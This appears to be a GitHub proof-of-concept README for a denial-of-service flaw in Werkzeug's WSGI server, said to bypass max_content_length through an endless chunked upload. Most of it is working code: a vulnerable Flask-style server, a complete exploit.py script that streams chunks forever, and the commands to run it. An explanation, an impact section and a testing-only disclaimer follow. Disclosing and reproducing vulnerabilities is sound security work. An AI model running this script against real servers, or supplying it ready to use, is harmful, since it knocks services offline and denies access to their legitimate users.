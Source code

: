 # Werkzeug WSGI Chunked Upload DoS PoC

Proof of Concept for a denial-of-service (DoS) vulnerability in Werkzeug’s WSGI request handling that allows bypassing the max_content_length limit, causing servers to hang when processing infinite or excessively large HTTP request bodies.


This repository demonstrates a **Denial of Service (DoS)** vulnerability in Werkzeug’s WSGI server related to handling chunked HTTP uploads.

By sending an infinite chunked POST request, an attacker can cause the server to hang indefinitely, bypassing the `max_content_length` protection.

---

## Server

A minimal Werkzeug server exposing an `/upload` endpoint:

```python
from werkzeug.wrappers import Request, Response
from werkzeug.serving import run_simple

@Request.application
def application(request):
    if request.path == "/upload":
        data = request.get_data()
        return Response(f"Received {len(data)} bytes\n", mimetype="text/plain")
    return Response("Hello World\n", mimetype="text/plain")

if __name__ == "__main__":
    print("Starting Werkzeug server on http://0.0.0.0:5000")
    run_simple("0.0.0.0", 5000, application)
```
Exploit Code (exploit.py)
This script sends an HTTP chunked POST request with an infinite stream of data chunks, causing the server to hang.

```python
import socket
import sys
import time

def send_chunk(sock, data: bytes):
    chunk_size = f"{len(data):X}\r\n".encode()
    sock.sendall(chunk_size + data + b"\r\n")

def send_chunked_request(host, port, path, infinite=False, chunk_data=b'a'*1024, max_chunks=100):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))

    headers = (
        f"POST {path} HTTP/1.1\r\n"
        f"Host: {host}\r\n"
        "Transfer-Encoding: chunked\r\n"
        "Connection: close\r\n"
        "\r\n"
    )
    sock.sendall(headers.encode())

    count = 0
    try:
        while True:
            send_chunk(sock, chunk_data)
            count += 1
            print(f"[+] Sent chunk #{count} ({len(chunk_data)} bytes)")
            if not infinite and count >= max_chunks:
                break
            time.sleep(0.1)
        sock.sendall(b"0\r\n\r\n")
        print("[+] Sent last chunk (0-length) to close request")
    except KeyboardInterrupt:
        print("\n[!] Interrupted by user")
    except Exception as e:
        print(f"[!] Exception: {e}")
    finally:
        sock.close()

if __name__ == "__main__":
    if len(sys.argv) < 4:
        print(f"Usage: python {sys.argv[0]} <host> <port> <path> [infinite]")
        print("Example: python exploit.py 127.0.0.1 5000 /upload infinite")
        sys.exit(1)

    host = sys.argv[1]
    port = int(sys.argv[2])
    path = sys.argv[3]
    infinite = len(sys.argv) > 4 and sys.argv[4].lower() == "infinite"

    send_chunked_request(host, port, path, infinite=infinite)
```

##Usage
Run the vulnerable Werkzeug server:
```bash
python werkzeug_server.py
```
In another terminal, run the exploit against the server:
```bash
python exploit.py 127.0.0.1 5000 /upload infinite
```
This will send an infinite HTTP chunked upload request causing the server to hang, demonstrating the DoS vulnerability.
Explanation
The Werkzeug server reads all the incoming chunked request data with request.get_data().

The exploit sends an infinite stream of chunked data (never sending the terminating zero-length chunk).

Werkzeug's max_content_length protection is bypassed because the server keeps waiting for the end of the chunked stream, which never arrives.

This causes the server to hang indefinitely, leading to a Denial of Service.

###Impact
Remote attacker can send crafted chunked uploads that hang the server.

Denies legitimate clients access to the server.

Could be exploited for DoS attacks on services using Werkzeug WSGI server without additional protections.

###Disclaimer
Use this code only in environments you own or have explicit permission to test. Do not attack unauthorized systems.

###Notes
1.This is for educational and testing purposes only.

2.Werkzeug's built-in server is a development server and not meant for production.

3.Real-world WSGI servers or frameworks may have mitigations or behave differently.




